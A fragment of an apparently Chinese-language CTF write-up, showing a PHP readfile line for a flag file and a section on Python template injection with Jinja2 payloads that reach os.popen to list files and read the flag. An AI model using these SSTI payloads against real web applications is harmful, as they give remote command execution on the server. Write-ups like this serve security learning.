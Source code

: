 ```

<?php readfile("fl4gisisish3r3.php"); ?> //先ls扫一下目录
```

## 0x15 Web_python_template_injection

SSTI

直接/{{1+1}} 输出2，证明存在模板注入

payload

```
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
{{ config.__class__.__init__.__globals__['os'].popen('cat fl4g').read() }}
```

